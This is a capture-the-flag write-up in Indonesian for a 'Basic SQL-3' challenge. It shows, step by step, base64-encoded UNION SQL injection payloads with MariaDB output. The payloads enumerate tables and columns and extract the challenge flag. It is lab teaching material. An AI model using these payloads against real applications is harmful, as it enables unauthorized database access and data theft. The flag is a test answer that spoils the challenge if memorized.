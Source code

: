 <h1><b>Basic SQL-3</h1></b>
<pre>
Select Form (username)
</pre>
</b><h3>Solution</h3></b>
<p>Perhatikan URL ketika kita submit, disana terdapat encode base64 contohnya <b>YWRtaW4=</b> yang jika didecode itu merupakan <b>admin</b>, dan berikut hasil masing2 decode selection</p>
<pre>
YWRtaW4= --> admin
ZXJpY2s= --> erick
cm9iZXJ0 --> robert
YWxiZXJ0 --> albert
</pre>
<p align='justify'>Jika kita coba melakukan injection hasilnya null(tidak terjadi apa2), Sepertinya terdapat proses base64 decoding sebelum data input diterima oleh database MySQL, contohnya jika kita input <b>YWRtaW4n</b>
akan error karena yang kita input mengandung perintah injection yaitu <b></b></p>
<pre>
admin' |-->| YWRtaW4n
</pre>
<p align='justify'> sepertinya kondisi ini hanya berlaku menggunakan union injection, pertama cari banyak column pada table, dan jangan lupa encode ke base64 sebelum melakukan injection </p>
<pre>
1' union select 1,2 -- - |-->| MScgdW5pb24gc2VsZWN0IDEsMiAtLSAt 
1' union select 1,2,3 -- - |-->| MScgdW5pb24gc2VsZWN0IDEsMiwzIC0tIC0=
</pre>
<p align='justify'>Setalah mendapatkan seluruh nilai tanpa error, sekarang ganti setiap nilai menjadi setiap query, Lakukan injection lagi dan jangan lupa encode terlebih dahulu</p>

```mysql
MariaDB [CTF]> select version();
+-------------------+
| version()         |
+-------------------+
| 10.3.23-MariaDB-1 |
+-------------------+
1 row in set (0.000 sec)

MariaDB [CTF]> select database();
+------------+
| database() |
+------------+
| CTF        |
+------------+
1 row in set (0.000 sec)
```
<pre>
1' union select version(),database(),3 -- - |-->| MScgdW5pb24gc2VsZWN0IHZlcnNpb24oKSxkYXRhYmFzZSgpLDMgLS0gLQ==
</pre>
<p align='justify'>Dan mendapatkan version database yaitu 10.3.23-MariaDB-1 dan nama database yaitu CTF, selanjutnya lakukan injection untuk table dari database CTF</p>

```mysql
MariaDB [CTF]> select group_concat(TABLE_NAME) from information_schema.TABLES where TABLE_SCHEMA='CTF';
+------------------------------------------------------------------------------------------------------------------+
| group_concat(TABLE_NAME)                                                                                         |
+------------------------------------------------------------------------------------------------------------------+
| *************************************,SQL_Challenge4,*********************************************************** |
+------------------------------------------------------------------------------------------------------------------+
1 row in set (0.000 sec)
```
<pre>
1' union select (select group_concat(TABLE_NAME) from information_schema.TABLES where TABLE_SCHEMA='CTF'),2,3# |-->| MScgdW5pb24gc2VsZWN0IChzZWxlY3QgZ3JvdXBfY29uY2F0KFRBQkxFX05BTUUpIGZyb20gaW5mb3JtYXRpb25fc2NoZW1hLlRBQkxFUyB3aGVyZSBUQUJMRV9TQ0hFTUE9J0NURicpLDIsMyM=
Hasilnya
SQL_Challenge4
</pre>
<p align='justify'>Setelah mendapatkan Table name, sekarang kita mencari column dari table yang sudah didapatkan</p>

```mysql
MariaDB [CTF]> select group_concat(COLUMN_NAME) from information_schema.COLUMNS where TABLE_NAME='SQL_Challenge4';
+---------------------------+
| group_concat(COLUMN_NAME) |
+---------------------------+
| id,username,level         |
+---------------------------+
1 row in set (0.001 sec)
```
<pre>
1' union select (select group_concat(COLUMN_NAME) from information_schema.COLUMNS where TABLE_NAME='SQL_Challenge4'),2,3# |-->| MScgdW5pb24gc2VsZWN0IChzZWxlY3QgZ3JvdXBfY29uY2F0KENPTFVNTl9OQU1FKSBmcm9tIGluZm9ybWF0aW9uX3NjaGVtYS5DT0xVTU5TIHdoZXJlIFRBQkxFX05BTUU9J1NRTF9DaGFsbGVuZ2U0JyksMiwzIw==
Hasilnya
id,username,level
</pre>
<p>Selanjutnya Injection masing-masing field dengan nama column yang sudah didapatkan</p>
<pre>
1' union select (select id from SQL_Challenge4 limit 0,1),(select username from SQL_Challenge4 limit 0,1),(select level from SQL_Challenge4 limit 0,1)# |-->| MScgdW5pb24gc2VsZWN0IChzZWxlY3QgaWQgZnJvbSBTUUxfQ2hhbGxlbmdlNCBsaW1pdCAwLDEpLChzZWxlY3QgdXNlcm5hbWUgZnJvbSBTUUxfQ2hhbGxlbmdlNCBsaW1pdCAwLDEpLChzZWxlY3QgbGV2ZWwgZnJvbSBTUUxfQ2hhbGxlbmdlNCBsaW1pdCAwLDEpIw
Hasilnya
Your ID : 1 
Username : admin 
Group : administrator
</pre>
<p align='justify'>Jika limit 0,1 menghasilkan field admin, dan banyak field yaitu yang ditampilkan pada form sebanyak 3,3. Mari kita periksa field 4,4</p>

```mysql
MariaDB [CTF]> select id from SQL_Challenge4 limit 4,4;
+----------+
| id       |
+----------+
| 13371337 |
+----------+
1 row in set (0.000 sec)

MariaDB [CTF]> select username from SQL_Challenge4 limit 4,4;
+----------+
| username |
+----------+
| Venom    |
+----------+
1 row in set (0.000 sec)

MariaDB [CTF]> select level from SQL_Challenge4 limit 4,4;
+-----------------------------+
| level                       |
+-----------------------------+
| VenomCTF{Un10n_m4k3_me_cry} |
+-----------------------------+
1 row in set (0.000 sec)
```
<pre>
1' union select (select id from SQL_Challenge4 limit 4,4),(select username from SQL_Challenge4 limit 4,4),(select level from SQL_Challenge4 limit 4,4)# |-->| MScgdW5pb24gc2VsZWN0IChzZWxlY3QgaWQgZnJvbSBTUUxfQ2hhbGxlbmdlNCBsaW1pdCA0LDQpLChzZWxlY3QgdXNlcm5hbWUgZnJvbSBTUUxfQ2hhbGxlbmdlNCBsaW1pdCA0LDQpLChzZWxlY3QgbGV2ZWwgZnJvbSBTUUxfQ2hhbGxlbmdlNCBsaW1pdCA0LDQpIw==
Hasilnya
Your ID : 13371337
Username : Venom
Group : VenomCTF{Un10n_m4k3_me_cry}
</pre>
<p>Ternyata dugaan kita benar bahwa field 4,4 benar berisi flag</p>
</b><h3>Flag</h3></b>
<pre>
VenomCTF{Un10n_m4k3_me_cry}
</pre>
